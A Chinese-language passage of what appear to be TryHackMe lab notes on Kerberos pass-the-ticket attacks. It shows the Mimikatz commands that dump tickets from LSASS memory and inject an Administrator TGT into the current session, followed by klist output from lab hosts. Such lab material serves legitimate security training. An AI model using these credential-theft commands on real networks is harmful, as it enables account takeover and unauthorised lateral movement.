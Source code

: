    <div style={{textAlign:'center'}}>

    ![Kerberos Client - Server](img/image_20231242-214235.png)

    </div>

### 票据传递

有时候可以使用 Mimikatz 从 LSASS 内存中提取 Kerberos 票据和会话密钥。这个过程通常需要我们在受攻击的机器上具有 SYSTEM 权限，并可以按以下步骤进行：

```shell
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

请注意，如果我们只能访问到票据而没有相应的会话密钥，我们将无法使用该票据；因此，两者都是必需的。

虽然 Mimikatz 可以从 LSASS 进程的内存中提取任何可用的 TGT 或 TGS，但大多数时候，我们会对 TGT 感兴趣，因为它们可以用于请求用户被允许访问的任何服务。同时，TGS 只适用于特定的服务。提取 TGT 将需要我们拥有管理员凭据，而提取 TGS 可以使用低特权帐户（仅限于该帐户分配的那些）。

一旦我们提取了所需的票据，我们可以使用以下命令将票据注入到当前会话中：

```shell
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

在我们自己的会话中注入票据不需要管理员权限。之后，这些票据将对我们用于横向移动的任何工具都是可用的。要检查票据是否被正确注入，您可以使用 klist 命令：

```shell title="THMJMP2: Powershell"
za\bob.jenkins@THMJMP2 C:\> klist

Current LogonId is 0:0x1e43562

Cached Tickets: (1)

#0>     Client: Administrator @ ZA.TRYHACKME.COM
        Server: krbtgt/ZA.TRYHACKME.COM @ ZA.TRYHACKME.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 4/12/2022 0:28:35 (local)
        End Time:   4/12/2022 10:28:35 (local)
        Renew Time: 4/23/2022 0:28:35 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called: THMDC.za.tryhackme.com
```
